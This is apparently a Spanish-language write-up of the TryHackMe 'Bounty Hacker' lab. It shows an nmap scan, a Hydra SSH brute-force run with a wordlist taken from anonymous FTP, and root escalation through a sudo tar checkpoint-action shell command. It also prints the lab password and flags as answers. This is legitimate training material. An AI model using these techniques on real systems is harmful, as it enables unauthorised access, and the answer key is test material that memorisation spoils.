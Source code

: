 # All in One - TryHackMe

- Objetivo: Obtener acceso al sistema y escalar privilegios hasta root.
- Fecha: 12/06/2025
- Autor del reto: Liiaam251
- Enlace a la máquina: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)
- IP de la máquina: 10.10.169.147

## Enumeración de puertos con Nmap

````
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.169.147
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 12:06 EDT
Nmap scan report for 10.10.169.147
Host is up (0.053s latency).
Not shown: 55598 filtered tcp ports (no-response), 9934 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
````
Vemos un ftp vamos a entrar:
## FTP - Anonymous
El nmap nos ha descubierto que podemos entrar con usuario Anonymous, hacemos un ls dentro y hay dos archivos que nos pasamos a nuestro local host,

````
$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
````
Parece un diccionario, el otro archivo: 
````
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
````
Teniendo ese usuario y lo otro que parecia una wordlist he probado ha hacer un hydra ya que no perdia nada, no he entrado al http de momento porque no me estaba haciendo falta pero
la he mirado por encima y habian nombres y algunos usuarios, tambien he lanzado gobuster y no había nada interesante solo un direcorio de imagenes.

Vamos a lanzar hydra 

## Entrada al SSH

````
 hydra -l lin -P locks.txt 10.10.169.147 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-14 12:19:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.169.147:22/
[22][ssh] host: 10.10.169.147   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-14 12:20:01
````
Encontramos password del user lin:
````
RedDr4gonSynd1cat3
````
Una vez dentro del ssh con:
````
ssh lin@10.10.169.147
````
Vemos que hay una flag en su directorio:
````
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
````
## Escalada Privilegios 
````bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
````
Vemos que el user lin puede usar tar con privilegios de administrador, el binario tar sirve para:

Archivar y recuperar archivos ha partir de un solo archivo denominado tarfile

En GTFObins encontramos el siguiente comando como sudo en el apartado de tar:
````
 sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
````
Y sin más dificultad:
````
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
````
## Task 
1. Who wrote the task list?
Como hemos visto en el archivo ftp el user era:
````
lin
````
2. What service can you bruteforce with the text file found?
El servicio que hemos explotado con fuerza bruta era:
````
ssh
````
3. What is the users password?
La contraseña que hemos encontrado con el hydra era:
````
RedDr4gonSynd1cat3
````
4. user.txt
La flag dentro de la carpeta de lin era:
````
THM{CR1M3_SyNd1C4T3}
````
5. root.txt
Dentro de la carpeta de /root estaba esta flag
````
THM{80UN7Y_h4cK3r}
````


